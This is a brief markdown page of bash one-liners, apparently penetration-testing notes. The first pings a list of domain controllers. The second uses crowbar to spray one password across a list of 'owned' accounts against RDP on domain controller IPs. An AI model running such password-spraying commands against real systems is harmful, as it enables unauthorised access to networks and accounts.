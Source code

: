 # List Short Bash Scripts
Sample of Bash scripts

The below bash oneliner script reads each line of text file and ping echo, and return the line with success PING and show IP address.  
```bash
while IFS= read -r line; do ping -c 1 $line; done <list-domain-controllers.txt | grep 'PING'
```

Using crowbar to spray passowrd with list of accounts and validate if any user in list have access to Remote Desktop.  
```bash
while IFS= read -r line; do crowbar -b rdp -U owned-useraccounts.txt -c 'password' -s $line; done <list-dc-ip.txt

More bash scripts too follow    
